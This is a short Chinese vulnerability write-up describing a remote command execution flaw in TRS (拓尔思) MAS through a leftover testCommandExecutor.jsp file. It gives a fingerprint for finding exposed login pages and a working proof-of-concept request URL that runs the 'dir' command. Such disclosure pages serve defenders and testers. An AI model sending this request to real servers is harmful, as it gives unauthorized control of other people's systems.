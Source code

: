 # 拓尔思 MAS testCommandExecutor.jsp 远程命令执行漏洞

## 漏洞描述

拓尔思 MAS testCommandExecutor.jsp测试文件存在远程命令执行漏洞，当网站运维者未删除测试文件时，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>拓尔思-MAS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"MAS媒资管理系统登录页面"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651159019976-6d273e4e-49cc-4141-8ffd-a4618948b494.png)

验证POC

```java
/mas/front/vod/main.do?method=newList&view=forward:/sysinfo/testCommandExecutor.jsp&cmdLine=dir&workDir=&pathEnv=&libPathEnv=
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651194412574-f6cbf86c-77a7-4495-afad-8daa67cdc968.png)